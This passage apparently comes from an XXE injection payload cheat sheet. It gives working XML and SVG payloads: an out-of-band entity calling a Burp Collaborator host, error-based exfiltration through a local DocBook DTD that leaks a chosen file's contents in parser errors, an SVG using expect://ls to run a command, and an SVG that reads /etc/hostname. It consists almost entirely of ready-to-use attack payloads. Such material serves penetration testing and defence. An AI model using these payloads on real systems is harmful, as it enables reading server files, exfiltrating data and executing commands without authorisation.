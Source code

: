 ```
<!DOCTYPE root [<!ENTITY test SYSTEM 'http://h3l9e5soi0090naz81tmq5ztaaaaaa.burpcollaborator.net'>]>
<root>&test;</root>
```

If error based exfiltration is possible, you can still rely on a local DTD to do concatenation tricks. Payload to confirm that error message include filename.

```
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///abcxyz/">

    %local_dtd;
]>
<root></root>
```

Assuming payloads such as the previous return a verbose error. You can start pointing to local DTD. With an found DTD, you can submit payload such as the following payload. The content of the file will be place in the error message.

```
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">

    <!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///REPLACE_WITH_FILENAME_TO_READ">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<root></root>
```

[Other payloads using different DTDs](https://github.com/GoSecure/dtd-finder/blob/master/list/xxe\_payloads.md)

### **XXE in exotic files** ###

#### **XXE inside SVG** ####

```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```

**Classic**

```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
